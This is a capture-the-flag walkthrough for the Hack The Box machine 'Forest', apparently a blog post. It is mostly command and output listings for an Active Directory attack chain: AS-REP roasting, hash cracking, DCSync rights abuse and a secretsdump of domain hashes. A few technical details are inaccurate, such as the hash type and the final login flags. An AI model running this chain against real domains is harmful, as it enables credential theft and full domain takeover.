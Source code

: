 ```yaml
---
title: HTB - Forest
date: 2024-03-16
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, forest, nmap, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/forest
published: true
image:
    path: machine_info.png
---
```


## HTB: Forest

>[Forest Box](https://app.hackthebox.com/machines/212)

![](forest_htb_diagram.png){: .normal}

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|ASREPRoasting|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _svc-alfresco_|
|2|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|3|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|4|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated privilege escalation path|
|5|Executed privileged escalation path|LOTL*|Created & added a domain user to the required groups|
|6|Assiged user DCSync rights|[DCSync.py](https://github.com/n00py/DCSync)|Obtained _administrator_'s NTLMv2 hash|
|7|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

*_[Living Off The Land](https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/)_

## Detailed attack chain reproduction steps

Obtained the TGT ticket of **_svc-alfresco_** via **ASREPRoasting**:

```bash
$ getnpusers -dc-ip 10.10.10.161 -request 'htb.local/'
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-03-15 17:01:22.890339  2024-03-15 16:37:07.184448  0x410200

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 svc-alfresco_tgt /usr/share/wordlists/rockyou.txt

<SNIP>

$krb5asrep$23$svc-alfresco@HTB.LOCAL:1f1...<REDACTED>...588:s<REDACTED>e

<SNIP>
```

The obtained credentials was subsequently domain-confirmed via [NetExec](https://github.com/Pennyw0rth/NetExec):

```bash
$ nxc smb 10.10.10.161 -u svc-alfresco -p s<REDACTED>e
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s<REDACTED>e
https://github.com/Pennyw0rth/NetExec
```

An initial foothold to the domain was achieved:

```bash
$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s<REDACTED>e

<SNIP>

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The **_user.txt_** file was compromised:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> type desktop\user.txt
5a4<REDACTED>f85
```

Domain information was collected and then transferred to the attack host:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco> upload SharpHound.exe

Info: Uploading /home/kali/htb/forest/SharpHound.exe to C:\Users\svc-alfresco\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco> .\SharpHound.exe -c All

*Evil-WinRM* PS C:\Users\svc-alfresco> download 20240315124803_htblocal.zip

Info: Downloading C:\Users\svc-alfresco\20240315124803_htblocal.zip to 20240315124803_htblocal.zip

Info: Download successful!
```

Upon review, two issues stood out:
  - _svc-alfresco_ was member of the [**_Account Operators**_](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) group as a result of [**group nesting**](https://learn.microsoft.com/en-us/windows/win32/ad/nesting-a-group-in-another-group) (Figure 1)
  - The _Windows Exchange Permissions_ group had _**WriteDACL**_ permissions over the _HTB.LOCAL_ domain, which means that its members can obtain **DCSync rights** (Figure 2)

![Figure 1: svc-alfresco is a part of the Account Operators group.](forest_account_operators.png)

![Figure 2: The Windows Exchange Permissions group has WriteDACL rights over HTB.LOCAL.](forest_writedacl.png)

Based on the above information, a new domain user account was created and added to the _Windows Exchange Permissions_ and the _Remote Management Users_ group (to allow WinRM remote management):

```bash
# create a new domain user
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user /domain hacker hack3r123 /add
The command completed successfully.

# add user to the groups
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group /domain "Exchange Windows Permissions" hacker /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" /add hacker
The command completed successfully.
```

The user was then assigned the **DCSync rights**:

```bash
$ sudo python3 DCSync.py -dc htb.local -t ''CN=hacker,CN=Users,DC=htb,DC=local'' ''htb.local\hacker:hack3r123''
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Starting DCSync Attack against CN=hacker,CN=Users,DC=htb,DC=local
[*] Initializing LDAP connection to htb.local
[*] Using htb.local\hacker account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Querying domain security descriptor
[*] Success! User hacker now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240316-103635.restore
```

The **DCSync attack** was performed and the _Administrator_'s NTLMv2 hash was obtained:

```bash
$ sudo /opt/impacket/examples/secretsdump.py htb.local/hacker:hack3r123@10.10.10.161
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad<REDACTED>4ee:326<REDACTED>ea6:::
<SNIP>
[*] Cleaning up...
```

The obtained hash was used to log in as _Administrator_ and achieve **full domain compromise** by obtaining the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.161 -u administrator -p aad<REDACTED>ea6

<SNIP>

*Evil-WinRM* PS C:\Users\Administrator\Documents> *Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
58a<REDACTED>525
```